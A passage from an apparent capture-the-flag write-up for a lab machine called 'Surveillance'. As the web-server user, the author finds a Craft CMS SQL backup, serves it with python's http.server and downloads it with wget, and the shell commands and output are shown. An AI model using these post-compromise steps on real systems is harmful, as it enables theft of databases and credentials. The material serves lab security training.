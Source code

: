 As expected we don't have permission to read their home directory.

```shell
www-data@surveillance:/$ ls -l /home/matthew
ls -l /home/matthew
ls: cannot open directory '/home/matthew': Permission denied
www-data@surveillance:/$ ls -l /home/zoneminder
ls -l /home/zoneminder
ls: cannot open directory '/home/zoneminder': Permission denied
www-data@surveillance:/$
```

## Backup Files

Continuing exploring and we find a backup of a SQL database.

```shell
www-data@surveillance:~/html/craft/storage/backups$ pwd
pwd
/var/www/html/craft/storage/backups
www-data@surveillance:~/html/craft/storage/backups$ ls -ltr
ls -ltr
total 20
-rw-r--r-- 1 root root 19918 Oct 17  2023 surveillance--2023-10-17-202801--v4.4.14.sql.zip
www-data@surveillance:~/html/craft/storage/backups$
```

Since we know that the target host has python we will start a python web server on the target machine and download the file locally.

```shell
www-data@surveillance:~/html/craft/storage/backups$ /usr/bin/python3 -m http.server 8000
<orage/backups$ /usr/bin/python3 -m http.server 8000
```

Now we download it locally with wget.

```shell
labadmin@labmachine:~/surveillance$ wget http://surveillance.htb:8000/surveillance--2023-10-17-202801--v4.4.14.sql.zip
--2024-04-18 00:50:20--  http://surveillance.htb:8000/surveillance--2023-10-17-202801--v4.4.14.sql.zip
Resolving surveillance.htb (surveillance.htb)... 10.10.11.245
Connecting to surveillance.htb (surveillance.htb)|10.10.11.245|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 19918 (19K) [application/zip]
Saving to: ‘surveillance--2023-10-17-202801--v4.4.14.sql.zip’

surveillance--2023-10-17-202801--v4.4.14.sql.zip    100%[=================================================================================================================>]  19.45K  67.9KB/s    in 0.3s

2024-04-18 00:50:21 (67.9 KB/s) - ‘surveillance--2023-10-17-202801--v4.4.14.sql.zip’ saved [19918/19918]
```
